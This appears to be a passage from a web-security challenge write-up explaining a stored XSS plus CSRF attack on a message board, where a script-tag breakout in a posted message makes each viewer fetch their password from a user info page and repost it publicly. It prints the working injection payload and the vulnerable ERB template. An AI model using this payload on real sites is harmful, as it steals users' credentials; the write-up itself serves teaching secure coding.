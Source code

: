 ``` html
```

Once again, we need to use XSS+CSRF to cause the target user to reveal their password.  In this case we will post a message that contains an XSS vector that causes the viewer to get their password from the user info page and post it as a message. 

The injection vector should cause the victim to grab the password from the user info page and post a message.  It will look something like this:

```javascript
$.get('user_info',function (data) {
  $.post('ajax/posts', 
    { title: $('td', data)[1].innerHTML, 
      body: 'EMPTY'
    });
});
```

The second `<td>` tag we select above is the one that contains the user's password in the user info page.

Where are we going to inject into?  The ERB template used to display the messages loads all the posts in JSON format as an object inside a script tag.  The contents of that object are then added to the DOM using javascript.

```html

<script>
  var username = "<%= @username %>";
  var post_data = <%= @posts.to_json %>;
    
  function escapeHTML(val) {
    return $('<div/>').text(val).html();
  }
  function addPost(item) {
    var new_element = '<tr><th>' + escapeHTML(item['user']) +
                      '</th><td><h4>' + escapeHTML(item['title']) + '</h4>' +
                      escapeHTML(item['body']) + '</td></tr>';
    $('#posts > tbody:last').prepend(new_element);
  }

  for(var i = 0; i < post_data.length; i++) {
    var item = post_data[i];
    addPost(item);
  };
</script>

```

This is where our injection will happen.  We will post a message that contains a closing and then opening script tag. So if we post a message with the body `</script><script>$.get('user_info',function (data) {$.post('ajax/posts', {title:$('td', data)[1].innerHTML, body:'EMPTY'})});</script><script>` we get something like

``` html
<script>
  var username = "USERNAME";
  var post_data = [{"id": 1, "title": "Some title", "body": "</script><script>$.get('user_info',function (data) {$.post('ajax/posts', {title:$('td', data)[1].innerHTML, body:'EMPTY'})});</script><script>[THE REST OF THE LEGITIMATE CODE]
</script>
```
